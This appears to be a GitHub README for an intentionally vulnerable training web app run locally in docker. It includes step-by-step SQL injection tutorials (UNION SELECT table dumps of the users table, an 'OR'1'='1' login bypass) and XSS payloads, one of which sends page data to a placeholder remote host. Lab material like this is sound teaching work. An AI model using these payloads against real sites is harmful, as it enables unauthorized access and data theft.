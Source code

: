 # Vulnerable-Web-App
Web app that is vulnerable to SQL-Injection and XSS attacks. Forked from https://github.com/steven-karschnia/Vulnerable-Web-App

Add text data to template.php

---

### To start 
Install docker and docker-compose 

`cd public`

Run `docker-compose start`

Run `docker-compose up`

Navigate to <http://localhost:8080>

---

### To add tables or records in MySQL
Edit `public/sql/dump.sql`

Run `docker-compose stop`

Run `docker-compose rm`

Start app again

---

### SQL Inject Tutorial
Navigate to <http://localhost:8080/catalog.php>

Enter `Hammer` to see how table shows up

Enter `Hammer' UNION SELECT table_schema, table_name, 1, 1 FROM information_schema.tables;#` to view all tables

*All tables with table_schema ceh are in current database*

Enter `Hammer' UNION SELECT * FROM users;#` to view information from users table

Click on [Login](http://localhost:8080/login.php)

Enter into either the username or password field `'OR'1'='1';#` to login to the webpage without verification

---

### XSS Tutorial
Navigate to <http://localhost:8080/comment.php>

The name and message inputs of the form with output to the page, every time it is loaded, once button is pressed

Enter into either the name or message box `<script>alert("hacked");</script>` to test for XSS Vulnerability
`<script>new Image().src="http://remote_ip:remote_port/whatever?output="</script>`

*Insert any script the either of the two boxes and the script will be run everytime the page loads*
